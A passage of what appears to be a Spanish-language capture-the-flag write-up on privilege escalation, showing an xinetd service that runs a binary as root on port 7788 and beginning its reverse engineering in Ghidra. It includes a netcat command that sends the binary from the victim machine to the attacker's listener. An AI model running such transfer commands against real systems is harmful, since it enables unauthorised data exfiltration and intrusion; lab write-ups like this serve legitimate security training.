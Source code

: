 ```bash
cat /etc/xinetd.d/agent
# default: on
# description: The agent server serves agent sessions
# unencrypted agentid for authentication.
service agent
{
       flags          = REUSE
       socket_type    = stream
       wait           = no
       user           = root
       server         = /usr/local/bin/agent
       log_on_failure += USERID
       disable        = no
       port           = 7788
}
```

Aquí podemos observar que efectivamente el puerto `7788` ejecuta el binario que vimos y en el apartado `user` vemos que lo ejecuta `root`. Si tenemos alguna forma de aprovecharnos de este binario y ejecutar una shell estaremos como el usuario `root`.

Para analizarlo mejor, nos lo traemos a nuestra máquina de atacante. Yo lo hago de la siguiente forma:

- En la máquina víctima:
```bash
nc -n <mi ip> <un puerto mío> < /usr/local/bin/agent
```

- En mi máquina:
```bash
nc -nvlp <el mismo puerto mío> > agent
```

> Primero hay que ponerse en escucha en tu máquina antes de enviar el archivo

- Comprobar la integridad del archivo:
```
md5sum agent
```

> Se compara el hash en las dos máquinas para ver si coincide

<a id="analisis-del-binario"></a>
### Análisis del binario

Para el análisis del binario usaré [Ghidra]("https://ghidra-sre.org/") que debería de estar preinstalado en distribuciones como **Kali linux** y **Parrot OS**.

Una vez abierto el programa, creamos un nuevo proyecto y arrastramos el binario dentro de la carpeta. Una vez aceptamos las ventanas que nos aparecen, arrastramos el binario al icono del dragón y le pedimos que nos analice el binario cuando nos lo pregunte.

En la parte izquierda se encuentran todas las funciones y le damos click a main:
